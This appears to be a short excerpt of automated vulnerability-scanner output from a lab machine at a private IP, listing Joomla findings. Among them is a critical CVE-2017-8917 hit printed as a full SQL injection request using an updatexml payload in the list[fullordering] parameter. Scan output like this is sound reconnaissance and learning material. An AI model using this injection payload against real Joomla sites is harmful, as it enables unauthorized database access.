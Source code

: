 [joomla-file-listing] [http] [medium] http://10.10.178.249/libraries/joomla/database/
[CVE-2017-8917] [http] [critical] http://10.10.178.249/index.php?layout=modal&list[fullordering]=updatexml(0x23,concat(1,md5(999999999)),1)&option=com_fields&view=fields
[joomla-htaccess-file] [http] [info] http://10.10.178.249/htaccess.txt
[joomla-panel] [http] [info] http://10.10.178.249/administrator/
[joomla-detect] [http] [info] http://10.10.178.249

